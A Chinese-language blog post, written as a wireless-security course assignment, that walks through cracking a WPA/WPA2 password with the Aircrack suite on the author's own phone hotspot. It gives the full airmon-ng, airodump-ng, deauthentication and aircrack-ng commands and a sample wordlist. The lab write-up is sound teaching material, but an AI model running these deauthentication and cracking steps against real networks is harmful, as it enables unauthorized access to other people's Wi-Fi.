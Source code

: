 ```yaml
---
title: 窥间伺隙：Aircrack 套件破解 WPA/WPA2 密码
date: 2020-10-18 13:24:01
tags:
  - Kali
  - 网络
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/AircrackWPA/0.jpg
---
```


《无线网络安全》作业。梦回大一。

<!--more-->

## 准备工作

手机开启热点，设置弱密码 `merc123321`，热点 SSID 为 `nova 4`。物理机连接 `nova 4` 无线网络作为被害主机。

![图 1]({{< param cdnPrefix >}}/AircrackWPA/1.png)

为 Kali 虚拟机添加无线网卡，随后即可在 `ifconfig` 的输出中看到 `wlan0` 网卡：

![图 2]({{< param cdnPrefix >}}/AircrackWPA/2.png)

首先启动监听：

```bash
sudo airmon-ng start wlan0
```

结果如图：

![图 3]({{< param cdnPrefix >}}/AircrackWPA/3.png)

此时 `ifconfig` 可以看到 `wlan0mon` 监听网卡：

![图 4]({{< param cdnPrefix >}}/AircrackWPA/4.png)

随后扫描无线网络：

```
sudo airodump-ng wlan0mon
```

结果如图，可以看到 `nova 4` 网络的 BSSID 为 `D8:9B:3B:9E:AB:A9`。

![图 5]({{< param cdnPrefix >}}/AircrackWPA/5.png)

利用该 BSSID 过滤掉其余网络流量：

```
sudo airodump-ng -c 11 --bssid D8:9B:3B:9E:AB:A9 -w psk wlan0mon
```

结果如图：

![图 6]({{< param cdnPrefix >}}/AircrackWPA/6.png)

## 捕获 WPA 握手包

此时我们需要捕获到 WPA 握手包，因此可以攻击一个已经连接到该网络的主机（即我们的物理机），让它强制掉线并重连产生握手包。

首先查看被害主机 MAC 地址：

![图 7]({{< param cdnPrefix >}}/AircrackWPA/7.png)

可以看到 MAC 地址为 `F4:8C:50:9F:E5:43`。实际上，在前面 `airodump-ng` 时的界面中也可以直接看到连接了该网络的主机 MAC 地址。随后发送 `DeAuth` 包使其掉线：

```
sudo aireplay-ng -0 1 -a D8:9B:3B:9E:AB:A9 -c F4:8C:50:9F:E5:43 wlan0mon
```

出现 `WPA handshake` 即捕获到了握手包，可以停止捕获了。

![图 8]({{< param cdnPrefix >}}/AircrackWPA/8.png)

## 口令破解

此时在目录下会生成 `psk-01.cap` ，我们使用 `aircrack-ng` 进行口令破解：

```
sudo aircrack-ng -w password.lst -b D8:9B:3B:9E:AB:A9 psk*.cap
```

使用的字典中包含了 `merc123321` 这个真正的密码：

```shell
$ cat password.lst
merc123
merc1234
merc123456
123merc
1234merc
123456merc
merc123321
merc321123
```

最后即可成功破解：

![图 9]({{< param cdnPrefix >}}/AircrackWPA/9.png)